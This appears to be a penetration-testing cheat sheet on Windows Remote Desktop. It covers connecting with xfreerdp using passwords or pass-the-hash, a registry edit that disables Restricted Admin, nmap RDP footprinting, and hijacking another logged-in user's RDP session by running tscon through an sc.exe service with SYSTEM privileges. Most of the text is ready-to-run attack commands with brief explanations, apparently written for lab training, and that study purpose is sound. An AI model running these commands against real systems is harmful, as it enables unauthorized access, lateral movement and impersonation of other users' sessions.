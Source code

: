 # Interacting
## Connecting
```bash
# ClearPassword
$ xfreerdp /v:<target-IP> /d:<domain> /u:<username> /p:<password>

# PTH
> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
$ xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>
```

# Footprinting
## Nmap
```bash
$ nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
```

# RDP Session Hijacking
```
PS > query user
```
As shown in the example below, we are logged in as the user juurena (UserID = 2) who has Administrator privileges. Our goal is to hijack the user lewen (User ID = 4), who is also logged in via RDP.

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. It works by specifying which SESSION ID (4 for the lewen session in our example) we would like to connect to which session name (rdp-tcp#13, which is our current session). So, for example, the following command will open a new console as the specified SESSION_ID within our current RDP session:

```
> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz. A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. We will use Microsoft sc.exe binary. First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.

```
> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

To run the command, we can start the sessionhijack service :

```
> net start sessionhijack
```

`Note: This method no longer works on Server 2019.`
